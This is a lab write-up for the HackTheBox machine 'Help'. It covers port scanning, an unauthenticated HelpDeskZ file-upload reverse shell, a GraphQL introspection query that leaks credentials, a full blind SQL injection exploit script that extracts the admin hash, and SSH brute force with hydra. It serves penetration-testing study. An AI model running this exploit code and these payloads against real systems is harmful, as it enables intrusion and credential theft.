- Machine Name: Help
- OS type: Linux
- Difficulty: Easy

### Port Scanning - Service & Version Enumeration

```powershell
# Nmap 7.94SVN scan initiated Sat Apr 12 12:14:06 2025 as: /usr/lib/nmap/nmap -sVC -p- --open -oN initial/nmap.out -vv 10.10.10.121
Nmap scan report for 10.10.10.121
Host is up, received reset ttl 63 (0.28s latency).
Scanned at 2025-04-12 12:14:07 EDT for 141s
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e5:bb:4d:9c:de:af:6b:bf:ba:8c:22:7a:d8:d7:43:28 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCZY4jlvWqpdi8bJPUnSkjWmz92KRwr2G6xCttorHM8Rq2eCEAe1ALqpgU44L3potYUZvaJuEIsBVUSPlsKv+ds8nS7Mva9e9ztlad/fzBlyBpkiYxty+peoIzn4lUNSadPLtYH6khzN2PwEJYtM/b6BLlAAY5mDsSF0Cz3wsPbnu87fNdd7WO0PKsqRtHpokjkJ22uYJoDSAM06D7uBuegMK/sWTVtrsDakb1Tb6H8+D0y6ZQoE7XyHSqD0OABV3ON39GzLBOnob4Gq8aegKBMa3hT/Xx9Iac6t5neiIABnG4UP03gm207oGIFHvlElGUR809Q9qCJ0nZsup4bNqa/
|   256 d5:b0:10:50:74:86:a3:9f:c5:53:6f:3b:4a:24:61:19 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHINVMyTivG0LmhaVZxiIESQuWxvN2jt87kYiuPY2jyaPBD4DEt8e/1kN/4GMWj1b3FE7e8nxCL4PF/lR9XjEis=
|   256 e2:1b:88:d3:76:21:d4:1e:38:15:4a:81:11:b7:99:07 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHxDPln3rCQj04xFAKyecXJaANrW3MBZJmbhtL4SuDYX
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.18
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Did not follow redirect to http://help.htb/
3000/tcp open  http    syn-ack ttl 63 Node.js Express framework
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Apr 12 12:16:29 2025 -- 1 IP address (1 host up) scanned in 143.01 seconds
```

## Enumeration

### Port 80/HTTP

let’s visit the url in web browser



it redirect us to help.htb let’s add the entry in /etc/hosts file, and revist the website



apache default page, hmmm let’s check the directory fuzzing

```powershell
gobuster dir -u http://help.htb -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
```



we found /support directory let’s visit it 



there’s HelpDeskz service running let’s search exploits for this service and we found it’s github repo https://github.com/ViktorNova/HelpDeskZ/ and visiting the [README.md](http://README.md) we found it’s version information



now we have the version information as well let’s use this to search for exploit we found Unauthenticated Arbitrary file upload lead to RCE

let’s search on the searchsploit as well



 https://www.exploit-db.com/exploits/40300, we used exploit from github → https://github.com/JubJubMcGrub/HelpDeskZ-1.0.2-File-Uplaod/ 

steps to exploit:

1. go to [http://help.htb/support](http://help.htb/support) and go to **submit ticket** and fill all the necessary details 
2. upload the php-reverse-shell.php and start netcat listener
3. run the exploit `python2 [helpdeskz.py](http://helpdeskz.py/) [http://help.htb/support/uploads/tickets/](http://help.htb/support/uploads/tickets/) php-reverse-shell.php` 
    
    → wait for few mins and you’ll get connection on the netcat listener
    



Bingo!! We got the Shell, but it is not the intended way to get initial access to this machine

### Port 3000/HTTP

port 3000 is also running web service 



maybe some API server running **Node Js Express Framework** let’s try dir/files fuzzing into this web server, here i was little bit confused small hint leads me to /graphql endpoint



ok so we are missing query, specifying the query with `?` we got following response from the server



we found https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/GraphQL%20Injection/README.md#enumerate-database-schema-via-introspection query that is used to enumerate the schema

```powershell
fragment+FullType+on+__Type+{++kind++name++description++fields(includeDeprecated%3a+true)+{++++name++++description++++args+{++++++...InputValue++++}++++type+{++++++...TypeRef++++}++++isDeprecated++++deprecationReason++}++inputFields+{++++...InputValue++}++interfaces+{++++...TypeRef++}++enumValues(includeDeprecated%3a+true)+{++++name++++description++++isDeprecated++++deprecationReason++}++possibleTypes+{++++...TypeRef++}}fragment+InputValue+on+__InputValue+{++name++description++type+{++++...TypeRef++}++defaultValue}fragment+TypeRef+on+__Type+{++kind++name++ofType+{++++kind++++name++++ofType+{++++++kind++++++name++++++ofType+{++++++++kind++++++++name++++++++ofType+{++++++++++kind++++++++++name++++++++++ofType+{++++++++++++kind++++++++++++name++++++++++++ofType+{++++++++++++++kind++++++++++++++name++++++++++++++ofType+{++++++++++++++++kind++++++++++++++++name++++++++++++++}++++++++++++}++++++++++}++++++++}++++++}++++}++}}query+IntrospectionQuery+{++__schema+{++++queryType+{++++++name++++}++++mutationType+{++++++name++++}++++types+{++++++...FullType++++}++++directives+{++++++name++++++description++++++locations++++++args+{++++++++...InputValue++++++}++++}++}}
```

let’s pass this into query parameter and see what server returns



we found Object `User` with two fields `username` and `password` 

further research reveals that we can get data by passing `query={user{username,password}}` let’s try this



great we found the username and hashed password, let’s try to decode it using [crackstation.net](http://crackstation.net) 



let’s login as helpme@helpme.com



earlier we found the Authenticated SQLi, let’s try to exploit it we’ll use exploit from exploitdb

https://www.exploit-db.com/exploits/41200

### Exploit.py

```powershell
import requests
import sys

if( len(sys.argv) < 3):
	print "put proper data like in example, remember to open a ticket before.... "
	print "python helpdesk.py http://192.168.43.162/helpdesk/ myemailtologin@gmail.com password123"
	exit()
EMAIL = sys.argv[2]
PASSWORD = sys.argv[3]

URL = sys.argv[1]

def get_token(content):
	token = content
	if "csrfhash" not in token:
		return "error"
	token = token[token.find('csrfhash" value="'):len(token)]
	if '" />' in token:
		token = token[token.find('value="')+7:token.find('" />')]
	else:
		token = token[token.find('value="')+7:token.find('"/>')]
	return token

def get_ticket_id(content):
	ticketid = content
	if "param[]=" not in ticketid:
                return "error"
	ticketid = ticketid[ticketid.find('param[]='):len(ticketid)]
	ticketid = ticketid[8:ticketid.find('"')]
	return ticketid

def main():

    # Start a session so we can have persistant cookies
	session = requests.session()

	r = session.get(URL+"")
	print "working on it.."
	print r
	#GET THE TOKEN TO LOGIN
        TOKEN = get_token(r.content)
	if(TOKEN=="error"):
		print "cannot find token"
		exit();
    #Data for login
	login_data = {
		'do': 'login',
		'csrfhash': TOKEN,
		'email': EMAIL,
		'password': PASSWORD,
		'btn': 'Login'
	}

    # Authenticate
	print "loging-in..."
	r = session.post(URL+"/?v=login", data=login_data)
	print r
    #GET  ticketid
	ticket_id = get_ticket_id(r.content)
	print "got ticket :"+ticket_id
        if(ticket_id=="error"):
                print "ticketid not found, open a ticket first"
		exit()
	#change this according to your parameters last two parameters need to change based on your url, to get that go to tickets and click on attachment and you'll find the last two parameter value in url replace it with here
	target = URL +"?v=view_tickets&action=ticket&param[]="+ticket_id+"&param[]=attachment&param[]=1&param[]=1"

	limit = 1
        char = 47
        prefix=[]
        while(char!=123):
                target_prefix = target+ " and ascii(substr((SeLeCt table_name from information_schema.columns where table_name like '%staff'  limit 0,1),"+str(limit)+",1)) =  "+str(char)+" -- -"
                #print "getting target prefix: "+target_prefix

		response = session.get(target_prefix).content
		#print "target prefix: "+response
                if "couldn't find" not in response:
                        prefix.append(char)
                        limit=limit+1
                        char=47
                else:
                        char=char+1
	table_prefix = ''.join(chr(i) for i in prefix)
	print "\n\n++ prefix: "+table_prefix
	table_prefix = table_prefix[0:table_prefix.find('staff')]
	
	limit = 1
	char = 47
	admin_u=[]
	while(char!=123):
		target_username = target+ " and ascii(substr((SeLeCt username from "+table_prefix+"staff  limit 0,1),"+str(limit)+",1)) =  "+str(char)+" -- -"
		#print "using payload: "+target_username
		response = session.get(target_username).content
		#print "username found: "+response
		if "couldn't find" not in response:
			admin_u.append(char)
			limit=limit+1
			char=47
		else:
			char=char+1

        limit = 1
        char = 47
        admin_pw=[]
        while(char!=123):
                target_password = target+ " and ascii(substr((SeLeCt password from "+table_prefix+"staff  limit 0,1),"+str(limit)+",1)) =  "+str(char)+" -- -"
                #print "using payload: "+target_password
		response = session.get(target_password).content
		#print "password found: "+response
                if "couldn't find" not in response:
                        admin_pw.append(char)
                        limit=limit+1
                        char=47
                else:
                        char=char+1

	admin_username = ''.join(chr(i) for i in admin_u)
	admin_password = ''.join(chr(i) for i in admin_pw)

	print "------------------------------------------"
	print "username: "+admin_username
	print "password: sha256("+admin_password+")"
	if admin_username==""  and  admin_password=='':
		print "Your ticket have to include attachment, probably none atachments found, or prefix is not equal hdz_"
		print "try to submit ticket with attachment"
if __name__ == '__main__':
    main()

```

i’ve modified this exploit, to add some print statement and solve the session() error, this will help you to understand the exploit and debug it if you face any issues, let’s run the exploit using

```powershell
python2 41200.py http://help.htb/support/ helpme@helpme.com godhelpmeplz
```



here if you are not getting prefix value you might doing something wrong in parameters values, let’s crack the obtained hash using [crackstation.net](http://crackstation.net) 



now we do have the admin credentials what about ssh!, but admin is not valid username what next let’s create a basic wordlist based on this machine’s nature

we’ll include names we found earlier, system name, machine name, root, admin, running services names etc



then i’ll run hydra on the target 

```powershell
hydra -L users.txt -p Welcome1 ssh://10.10.10.121
```



i got the password, i’ll use this credentials to login to machine using ssh

```powershell
ssh help@10.10.10.121
```



## Post-Enum

then i’ll first check for my sudo permissions



help user can’t run sudo on this machine, what about SUID binaries 

```powershell
find / -type f -perm -4000 2>/dev/null
```



nothing interesting, no sensitive files, hardcoded credentials here

any internal service running?

```powershell
ss -tunlp
```



i noticed that the SMTP is running internally it’s worthy to check the mail 

```powershell
cat /var/mail/help
```

